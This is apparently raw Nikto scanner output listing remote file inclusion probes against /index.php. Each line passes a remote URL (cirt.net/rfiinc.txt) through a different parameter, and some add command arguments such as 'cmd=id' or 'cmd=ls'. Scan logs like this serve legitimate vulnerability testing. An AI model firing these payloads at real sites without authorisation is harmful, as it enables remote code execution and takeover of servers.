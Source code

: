 ```
+ OSVDB-5292: GET /index.php?abs_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?adduser=true&lang=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?adodb=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ads_file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?arquivo=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?back=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?base==http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?basePath=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?bibtexrootrel=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?blog_dc_path=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?blog_theme=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?body=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?class_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?classified_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?cms=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config[\"sipssys\"]=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config[root_ordner]=http://cirt.net/rfiinc.txt??&cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config[root_ordner]=http://cirt.net/rfiinc.txt??cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?config_atkroot=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?configuration=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?custom_admin_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?dateiPfad=http://cirt.net/rfiinc.txt??&cmd=ls: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?de=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?dept=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?do=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?exec=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?ext=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?faq_path=http://cirt.net/rfiinc.txt??&cmd=id: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?file_Nikto[]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?file_name[]=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ OSVDB-5292: GET /index.php?file_path=http://cirt.net/rfiinc.txt??: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
```